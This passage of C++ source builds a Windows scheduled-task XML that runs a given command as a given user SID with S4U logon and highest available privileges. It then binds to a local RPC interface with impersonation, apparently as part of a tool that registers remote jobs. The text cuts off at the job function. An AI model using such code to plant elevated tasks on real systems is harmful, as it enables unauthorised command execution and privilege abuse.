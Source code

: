 ```c++
		L"    <IdleSettings>\n"
		L"      <Duration>PT10M</Duration>\n"
		L"      <WaitTimeout>PT1H</WaitTimeout>\n"
		L"      <StopOnIdleEnd>false</StopOnIdleEnd>\n"
		L"      <RestartOnIdle>false</RestartOnIdle>\n"
		L"    </IdleSettings>\n"
		L"    <AllowStartOnDemand>true</AllowStartOnDemand>\n"
		L"    <Enabled>true</Enabled>\n"
		L"    <Hidden>false</Hidden>\n"
		L"    <RunOnlyIfIdle>false</RunOnlyIfIdle>\n"
		L"    <WakeToRun>false</WakeToRun>\n"
		L"    <ExecutionTimeLimit>PT72H</ExecutionTimeLimit>\n"
		L"    <Priority>7</Priority>\n"
		L"  </Settings>\n"
		L"  <Actions Context=\"Author\">\n"
		L"    <Exec>\n"
		L"      <Command>%s</Command>\n"
		L"    </Exec>\n"
		L"  </Actions>\n"
		L"  <Principals>\n"
		L"    <Principal id=\"Author\">\n"
		L"      <UserId>%s</UserId>\n"
		L"      <LogonType>S4U</LogonType>\n"
		L"      <RunLevel>HighestAvailable</RunLevel>\n"
		L"    </Principal>\n"
		L"  </Principals>\n"
		L"</Task>\n",
		commandPath, wideSid);

	return xmlBuffer;
}


RPC_BINDING_HANDLE BindtoRpc() {

	RPC_WSTR StringBinding;
	RPC_BINDING_HANDLE bindingHandle;
	RPC_SECURITY_QOS qos = { 0 };

	RpcStringBindingComposeW((RPC_WSTR)UUID, (RPC_WSTR)L"ncacn_np", (RPC_WSTR)L"localhost", (RPC_WSTR)InterfaceAddress, NULL, &StringBinding);

	RPC_STATUS status = RpcBindingFromStringBindingW(StringBinding, &bindingHandle);

	if (status != RPC_S_OK) {
		wprintf(L"[!] RpcBindingFromStringBindingW failed: %d\n", status);
		return NULL;
	}

	qos.Version = 1;
	qos.ImpersonationType = RPC_C_IMP_LEVEL_IMPERSONATE;
	qos.Capabilities = RPC_C_QOS_CAPABILITIES_DEFAULT;
	qos.IdentityTracking = RPC_C_QOS_IDENTITY_STATIC;
	RpcBindingSetAuthInfoExW(bindingHandle, NULL, RPC_C_AUTHN_LEVEL_PKT_PRIVACY,
		RPC_C_AUTHN_WINNT, NULL, RPC_C_AUTHZ_NONE, &qos);

	RpcStringFreeW(&StringBinding);

	return bindingHandle;
}


VOID AddRemoteJob(RPC_BINDING_HANDLE handle, const wchar_t* cmd) {
```